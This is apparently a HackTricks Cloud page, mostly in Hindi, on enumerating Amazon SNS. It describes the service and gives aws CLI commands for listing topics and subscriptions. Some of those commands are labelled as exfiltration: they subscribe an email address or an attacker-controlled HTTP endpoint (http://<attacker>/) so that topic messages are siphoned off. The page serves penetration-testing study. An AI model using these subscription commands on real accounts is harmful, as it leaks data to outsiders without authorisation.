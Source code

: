# AWS - SNS Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) को **पूर्ण रूप से प्रबंधित संदेश सेवा** के रूप में वर्णित किया गया है। यह **एप्लिकेशन-से-एप्लिकेशन** (A2A) और **एप्लिकेशन-से-व्यक्ति** (A2P) संचार प्रकारों का समर्थन करता है।

A2A संचार के लिए प्रमुख विशेषताओं में **प्रकाशित/सदस्यता (pub/sub) तंत्र** शामिल हैं। ये तंत्र **विषयों** को पेश करते हैं, जो उच्च-थ्रूपुट, **पुश-आधारित, कई-से-कई संदेश भेजने** के लिए महत्वपूर्ण हैं। यह विशेषता वितरित प्रणालियों, माइक्रोसर्विसेज, और इवेंट-ड्रिवन सर्वरलेस आर्किटेक्चर में शामिल परिदृश्यों में अत्यधिक फायदेमंद है। इन विषयों का लाभ उठाकर, प्रकाशक प्रणालियाँ **व्यापक रूप से विभिन्न सदस्यता प्रणालियों** को संदेश वितरित कर सकती हैं, जिससे एक फैनोउट संदेश पैटर्न को सुविधाजनक बनाया जा सकता है।

### **Difference with SQS**

**SQS** एक **क्यू-आधारित** सेवा है जो बिंदु-से-बिंदु संचार की अनुमति देती है, यह सुनिश्चित करते हुए कि संदेशों को **एकल उपभोक्ता** द्वारा संसाधित किया जाता है। यह **कम से कम एक बार डिलीवरी** प्रदान करता है, मानक और FIFO क्यू का समर्थन करता है, और पुनः प्रयास और विलंबित प्रसंस्करण के लिए संदेश संरक्षण की अनुमति देता है।\
दूसरी ओर, **SNS** एक **प्रकाशित/सदस्यता-आधारित सेवा** है, जो **एक-से-बहुत** संचार को सक्षम बनाती है, जिससे संदेशों को **एक साथ कई सदस्यों** को प्रसारित किया जा सकता है। यह **ईमेल, SMS, Lambda कार्यों, और HTTP/HTTPS** जैसे विभिन्न सदस्यता अंत बिंदुओं का समर्थन करता है, और लक्षित संदेश वितरण के लिए फ़िल्टरिंग तंत्र प्रदान करता है।\
हालांकि दोनों सेवाएँ वितरित प्रणालियों में घटकों के बीच डिकपलिंग को सक्षम बनाती हैं, SQS क्यूड संचार पर ध्यान केंद्रित करता है, और SNS इवेंट-ड्रिवन, फैनोउट संचार पैटर्न पर जोर देता है।

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
ध्यान दें कि यदि **विषय FIFO प्रकार का है**, तो केवल **SQS** प्रोटोकॉल का उपयोग करने वाले सब्सक्राइबरों का उपयोग किया जा सकता है (HTTP या HTTPS का उपयोग नहीं किया जा सकता)।

इसके अलावा, भले ही `--topic-arn` में क्षेत्र शामिल हो, सुनिश्चित करें कि आप **`--region`** में सही क्षेत्र निर्दिष्ट करें, अन्यथा आपको एक त्रुटि मिलेगी जो यह संकेत करती है कि आपके पास पहुंच नहीं है, लेकिन समस्या क्षेत्र है।
{% endhint %}

#### अनधिकृत पहुंच

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### विशेषाधिकार वृद्धि

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### पोस्ट शोषण

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### स्थिरता

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## संदर्भ

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}
